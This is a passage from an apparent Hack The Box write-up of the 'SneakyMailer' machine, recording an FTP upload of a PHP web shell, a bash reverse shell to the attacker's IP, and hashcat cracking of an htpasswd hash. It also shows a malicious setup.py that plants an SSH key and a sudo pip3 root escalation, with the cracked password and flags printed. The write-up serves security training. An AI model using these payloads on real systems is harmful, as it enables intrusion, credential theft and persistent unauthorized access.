226 Transfer complete.
13742 bytes received in 0.00 secs (21.2061 MB/s)
ftp> cd scss
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             980 May 26 18:52 _buttons.scss
-rwxr-xr-x    1 0        0             733 May 26 18:52 _cards.scss
-rwxr-xr-x    1 0        0             454 May 26 18:52 _charts.scss
-rwxr-xr-x    1 0        0             356 May 26 18:52 _dropdowns.scss
-rwxr-xr-x    1 0        0            1139 May 26 18:52 _error.scss
-rwxr-xr-x    1 0        0             196 May 26 18:52 _footer.scss
-rwxr-xr-x    1 0        0             886 May 26 18:52 _global.scss
-rwxr-xr-x    1 0        0             893 May 26 18:52 _login.scss
-rwxr-xr-x    1 0        0               1 May 26 18:52 _mixins.scss
-rwxr-xr-x    1 0        0              85 May 26 18:52 _navs.scss
-rwxr-xr-x    1 0        0             239 May 26 18:52 _utilities.scss
-rwxr-xr-x    1 0        0            2477 May 26 18:52 _variables.scss
drwxr-xr-x    2 0        0            4096 May 26 18:52 navs
-rwxr-xr-x    1 0        0             504 May 26 18:52 sb-admin-2.scss
drwxr-xr-x    2 0        0            4096 May 26 18:52 utilities
226 Directory send OK.
ftp> get sb-admin-2.scss
local: sb-admin-2.scss remote: sb-admin-2.scss
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for sb-admin-2.scss (504 bytes).
226 Transfer complete.
504 bytes received in 0.00 secs (3.3379 MB/s)
ftp> cd utilities
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             596 May 26 18:52 _animation.scss
-rwxr-xr-x    1 0        0             389 May 26 18:52 _background.scss
-rwxr-xr-x    1 0        0             190 May 26 18:52 _border.scss
-rwxr-xr-x    1 0        0              64 May 26 18:52 _display.scss
-rwxr-xr-x    1 0        0              34 May 26 18:52 _progress.scss
-rwxr-xr-x    1 0        0              90 May 26 18:52 _rotate.scss
-rwxr-xr-x    1 0        0             699 May 26 18:52 _text.scss
226 Directory send OK.
```

I was able to successfully login, and began looking around. It appeared as if the ftp server location and files were the same as the live website. I exfiltrated some of the files to my machine for further analysis, but none of the files seemed to have anything interesting in them.

```text
ftp> put php-code-exec.php
local: php-code-exec.php remote: php-code-exec.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
33 bytes sent in 0.00 secs (233.5258 kB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 18:52 css
drwxr-xr-x    2 0        0            4096 May 26 18:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 08:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 18:52 js
--wxrw-rw-    1 1001     1001           33 Nov 11 12:49 php-code-exec.php
drwxr-xr-x    2 0        0            4096 May 26 18:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 18:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 19:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 18:52 vendor
226 Directory send OK.
```

After testing some things in the FTP server, I realized that I had the ability to use the PUT command. Since this seemed to be the code for the site, I put a test file to see if I could access it from my browser.

```php
<?php

$var=$_GET['var'];
system($var);

?>
```

## Initial Foothold


Using this I was able to identify that I was running in the context of `www-data`.


, and that there were three users that could log into the machine: low, developer, and root


Next I tried adding my public SSH key to both `low` and `developer` since they could log in, but was unable to gain access with SSH since `www-data` could not write to those files.

## Road to User

### Further enumeration

got running processes, etc/passwd, could not add ssh keys, next tried reverse shell

```text
GET /php-code-exec.php?var=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.174/46445+0>%261' HTTP/1.1

Host: dev.sneakycorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

sent my reverse shell, and immediately got a connection on my waiting netcat listener

```text
zweilos@kali:~/htb/sneakymailer$ script sneaky-transcript
Script started, output log file is 'sneaky-transcript'.
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ bash                
zweilos@kali:~/htb/sneakymailer$ nc -lvnp 46445
listening on [any] 46445 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.10.197] 60704
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ python -c 'import pty;pty.spawn("/bin/bash")'
</dev$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^Z
[1]+  Stopped                 nc -lvnp 46445
zweilos@kali:~/htb/sneakymailer$ stty raw -echo
zweilos@kali:~/htb/sneakymailer$ nc -lvnp 46445

www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export TERM=xterm-256color
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id && hostname
id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sneakymailer
```

started enumeration \(remembered to switch to bash this time since zsh seems to have problems with upgrading nc shells\)

```text
www-data@sneakymailer:~/sneakycorp.htb$ cd /home
www-data@sneakymailer:/home$ ls
low  vmail
www-data@sneakymailer:/home$ cd vmail
bash: cd: vmail: Permission denied
www-data@sneakymailer:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 May 14 17:10 .
drwxr-xr-x 18 root  root  4096 May 14 05:30 ..
drwxr-xr-x  8 low   low   4096 Jun  8 03:47 low
drwx------  5 vmail vmail 4096 May 19 21:10 vmail
```

in the `/home` directory there were only two folders, `low`, and `vmail`

```text
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ls -la
total 76
drwxrwxr-x 8 root developer  4096 Nov 11 13:23 .
drwxr-xr-x 3 root root       4096 Jun 23 08:15 ..
drwxr-xr-x 2 root root       4096 May 26 19:52 css
drwxr-xr-x 2 root root       4096 May 26 19:52 img
-rwxr-xr-x 1 root root      13742 Jun 23 09:44 index.php
drwxr-xr-x 3 root root       4096 May 26 19:52 js
drwxr-xr-x 2 root root       4096 May 26 19:52 pypi
drwxr-xr-x 4 root root       4096 May 26 19:52 scss
-rwxr-xr-x 1 root root      26523 May 26 20:58 team.php
drwxr-xr-x 8 root root       4096 May 26 19:52 vendor
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ cd ..
www-data@sneakymailer:~/dev.sneakycorp.htb$ ls
dev
www-data@sneakymailer:~/dev.sneakycorp.htb$ cd ..
www-data@sneakymailer:~$ ls
dev.sneakycorp.htb  html  pypi.sneakycorp.htb  sneakycorp.htb
www-data@sneakymailer:~$ cd pypi.sneakycorp.htb/
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ls -la
total 20
drwxr-xr-x 4 root root     4096 May 15 14:29 .
drwxr-xr-x 6 root root     4096 May 14 18:25 ..
-rw-r--r-- 1 root root       43 May 15 14:29 .htpasswd
drwxrwx--- 2 root pypi-pkg 4096 Jun 30 02:24 packages
drwxr-xr-x 6 root pypi     4096 May 14 18:25 venv
www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd 
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

found what looked like a hash for a user `pypi` in `.htpasswd` in the `pypi.sneakycorp.htb` folder

```text
┌──(zweilos㉿kali)-[~]
└─$ hash-identifier hashes                                                          
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

 Not Found.
--------------------------------------------------
 HASH: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

Possible Hashs:
[+] MD5(APR)
--------------------------------------------------
```

the hash came up as type MD5\(APR\)

```text
┌──(zweilos㉿kali)-[~]
└─$ hashcat --help | grep -i APR                                                    
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | FTP, HTTP, SMTP, LDAP Server
```

hashcat's help ID'd it at an Apache MD5 hash

### Finding user creds

```text
┌──(zweilos㉿kali)-[~]
└─$ hashcat -a0 -m1600 --username htb/sneakymailer/hash /usr/share/wordlists/rockyou.txt         
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
Time.Started.....: Wed Nov 11 15:52:56 2020 (2 mins, 18 secs)
Time.Estimated...: Wed Nov 11 15:55:14 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    25994 H/s (9.47ms) @ Accel:64 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3614208/14344385 (25.20%)
Rejected.........: 0/3614208 (0.00%)
Restore.Point....: 3613952/14344385 (25.19%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: souhern4u -> soucia

Started: Wed Nov 11 15:52:45 2020
Stopped: Wed Nov 11 15:55:16 2020
```

The password enabled me to log in to `http://pypi.sneakycorp.htb:8080/` with the creds `pypi:soufianeelhaoui`


There was nothing interesting on either of the sites linked on this page however. 

```text
www-data@sneakymailer:~/pypkg$ su developer
Password: 
developer@sneakymailer:/dev/shm/pypkg$ id
uid=1001(developer) gid=1001(developer) groups=1001(developer)
```

I went back to the machine and tried to switch users to `developer` with the credentials mentioned in the email, and found myself logged in as `developer`. 

```text
developer@sneakymailer:/dev/shm/pypkg$ sudo -l

sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
[sudo] password for developer: 
Sorry, try again.
[sudo] password for developer: 
Sorry, user developer may not run sudo on sneakymailer.
```

I had a weird network hiccup that caused authentication to fail the first try, but then I found out that this user was not able to run commands with `sudo`

[https://pypi.org/project/pypiserver/\#upload-with-setuptools](https://pypi.org/project/pypiserver/#upload-with-setuptools)

> On client-side, edit or create a ~/.pypirc file with a similar content:

```text
    [distutils]
    index-servers =
      pypi
      local

    [pypi]
    username:<your_pypi_username>
    password:<your_pypi_passwd>

    [local]
    repository: http://localhost:8080
    username: <some_username>
    password: <some_passwd>
```

> Then from within the directory of the python-project you wish to upload, issue this command:

```text
    python setup.py sdist upload -r local
```

Then I wrote a setup.py python script as specified at [https://packaging.python.org/tutorials/packaging-projects/\#creating-setup-py](https://packaging.python.org/tutorials/packaging-projects/#creating-setup-py)

```python
import setuptools
import os

if os.getuid() == 1000:
    with open("/home/low/.ssh/authorized_keys", "a") as fh:
        fh.write("\necdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCOQVWrtHkqJofpMNDvUFQlPj7KHcLwMRo5BghGIW8tEAdl2yU0GQ03g2gKnUE9bDGP5NCW6uuEBxSUw73QCYws= zweilos@kali")

long_description = "A sneaky pwn package"

setuptools.setup(
    name="sneakymailer-pwn", # Replace with your own username
    version="0.0.1",
    author="zweilos",
    author_email="zweilos@sneakymailer.htb",
    description="A small pwny package",
    long_description=long_description,
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

I first tried writing my public SSH key to `low` but the script was being run in the context of `developer` and not being installed for some reason. I added a check to make sure that `low` \(userID 1000\) was the one running it. Next I followed the instructions to install the package into pypiserver

```text
[distutils]
index-servers =
  pypi
  local

[pypi]
username:pypi
password:soufianeelhaoui

[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username:pypi
password:soufianeelhaoui
```

I created the `.pypirc` file in my distribution's directory, then set this to be `developer`'s home directory with `export HOME=/dev/shm/pypi`

### User.txt

```text
developer@sneakymailer:~$ python3 setup.py sdist register -r local upload -r local
running sdist
running egg_info
writing sneakymailer_pwn.egg-info/PKG-INFO
writing dependency_links to sneakymailer_pwn.egg-info/dependency_links.txt
writing top-level names to sneakymailer_pwn.egg-info/top_level.txt
reading manifest file 'sneakymailer_pwn.egg-info/SOURCES.txt'
writing manifest file 'sneakymailer_pwn.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating sneakymailer-pwn-0.0.1
creating sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying files to sneakymailer-pwn-0.0.1...
copying setup.py -> sneakymailer-pwn-0.0.1
copying sneakymailer_pwn.egg-info/PKG-INFO -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/SOURCES.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/dependency_links.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/top_level.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
Writing sneakymailer-pwn-0.0.1/setup.cfg
Creating tar archive
removing 'sneakymailer-pwn-0.0.1' (and everything under it)
running register
Registering sneakymailer-pwn to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Registering is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
running upload
Submitting dist/sneakymailer-pwn-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Uploading via this command is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
```

It complained a bit that I didn't create a readme, but it ran

```text
┌──(zweilos㉿kali-[~/htb/sneakymailer]
└─$ ssh -i dev low@sneakycorp.htb   
The authenticity of host 'sneakycorp.htb (10.10.10.197)' can't be established.
ECDSA key fingerprint is SHA256:I1lCFRteozDGkqC/ZSE2SbHl8ISpJWhfu5nwn6LxbA0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sneakycorp.htb' (ECDSA) to the list of known hosts.
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Jun  9 03:02:52 2020 from 192.168.56.105
low@sneakymailer:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
low@sneakymailer:~$ cat user.txt 
06106e8ea4721e1a01714bf6ef000a88
```

Next I tried logging in with the ssh key I had made and was successful!  I got that same temporary name resolution error when using `sudo -l`, where it seemed to hang for a minute, but this time I got a very interesting result!

```text
low@sneakymailer:/dev/shm/fin$ pip3 install setup.py
Looking in indexes: http://pypi.sneakycorp.htb:8080/simple/
Collecting setup.py
  The repository located at pypi.sneakycorp.htb is not a trusted or secure host and is being ignored. If this repository is available via HTTPS we recommend you use HTTPS instead, otherwise you may silence this warning and allow it anyway with '--trusted-host pypi.sneakycorp.htb'.                            
  Could not find a version that satisfies the requirement setup.py (from versions: )
No matching distribution found for setup.py
```

A search for ways to privilege escalation with sudo and pip3 led to [https://gtfobins.github.io/gtfobins/pip/](https://gtfobins.github.io/gtfobins/pip/)

> File write It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```text
It needs an absolute local file path.
```

```text
    export LFILE=/tmp/file_to_save
    TF=$(mktemp -d)
    echo "open('$LFILE','w+').write('DATA')" > $TF/setup.py
    pip install $TF
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User

### Getting a shell

```text
low@sneakymailer:/dev/shm$ TF=$(mktemp -d)
low@sneakymailer:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/dev/shm$ sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.eLbVbsYr88
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
sneakymailer
# cat root.txt  
cat: root.txt: No such file or directory
# ls -la
total 20
drwx------  3 root root 4096 Nov 11 20:49 .
drwxrwxrwt 16 root root 4096 Nov 11 20:49 ..
-rw-r--r--  1 root root  185 Nov 11 20:49 pip-delete-this-directory.txt
drwxr-xr-x  2 root root 4096 Nov 11 20:49 pip-egg-info
-rw-r--r--  1 root root   86 Nov 11 20:49 setup.py
# pwd
/tmp/pip-req-build-2ueqz020
```

I was not in the directory I expected at first...the shell spawned in the tmp directory where the "module" was installed to

### Root.txt

```text
# cd /root
# ls -la
total 44
drwx------  6 root root 4096 Jun 10 04:20 .
drwxr-xr-x 18 root root 4096 May 14 05:30 ..
lrwxrwxrwx  1 root root    9 May 26 22:32 .bash_history -> /dev/null
-rw-r--r--  1 root root  619 May 14 12:57 .bashrc
drwxr-xr-x  3 root root 4096 May 14 15:29 .cache
drwx------  3 root root 4096 Jun 10 04:20 .config
drwx------  3 root root 4096 May 15 13:10 .gnupg
drwxr-xr-x  3 root root 4096 May 14 12:57 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  977 May 14 13:31 .python_history
-rwx------  1 root root   33 Nov 11 01:09 root.txt
-rw-r--r--  1 root root   66 May 27 13:00 .selected_editor
# cat root.txt
81337e5b7eb0c72e251736d031a72998
```

fine


Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

